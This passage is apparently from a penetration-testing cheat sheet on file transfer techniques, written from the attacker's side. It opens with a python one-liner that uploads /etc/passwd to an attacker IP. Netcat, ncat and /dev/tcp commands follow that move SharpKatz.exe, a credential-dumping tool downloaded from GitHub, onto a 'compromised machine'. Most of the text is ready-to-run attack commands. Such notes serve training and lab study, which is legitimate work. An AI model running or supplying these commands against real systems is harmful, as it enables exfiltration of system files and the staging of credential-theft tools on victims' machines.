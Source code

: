 ```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

### **Miscellaneous File Transfer Methods**
#### <span class="red-command">NetCat</span>
Compromised Machine - Listening on Port 9000

```bash
nc -l -p 9000 > SharpKatz.exe
```

Attack Host - Sending File to Compromised machine
```bash
redparrot@parrot$ wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
redparrot@parrot$ # Example using Original Netcat
r3dp4rrot@htb[/htb]$ nc -q 0 <ATTACKER'S_MACHINE> 9000 < SharpKatz.exe
```

The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.  

Attack Host - Sending File as Input to Netcat
```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

Compromised Machine Connect to Netcat to Receive the File
```bash
nc 192.168.49.128 443 > SharpKatz.exe
```


#### <span class="red-command">Ncat</span>
Compromised Machine - Listening on Port 9000.
```bash
ncat -l -p 9000 --recv-only > SharpKatz.exe
```

Attack Host - Sending File to Compromised machine.
```bash
ncat --send-only 192.168.49.128 9000 < SharpKatz.exe
```

Attack Host - Sending File as Input to Netcat
```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

Compromised Machine Connect to Netcat to Receive the File
```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

#### <span class="red-command">/dev/tcp</span>
If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file `/dev/TCP/`.  
Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers.
